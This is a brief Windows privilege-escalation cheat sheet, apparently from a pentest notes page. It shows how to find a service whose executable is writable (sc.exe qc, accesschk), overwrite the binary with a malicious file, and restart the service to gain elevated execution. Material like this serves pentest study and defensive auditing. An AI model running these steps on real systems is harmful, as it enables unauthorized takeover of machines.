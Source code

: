 First, check the owner and get the path:
```
sc.exe qc SERVICE_NAME
```

Then, check permissions:
```
accesschk.exe /accepteula -quvw SERVICE_PATH
```

If you have `FILE_ALL_ACCESS`, it is exploitable.
Overwrite the executable to exploit:
```
copy MALICIOUS_FULL_PATH ORIGINAL_FULL_PATH
```

Restart the service:
```
net stop SERVICE
net start SERVICE
```
Note: if `net start`/`net stop` cannot be called, reboot the system.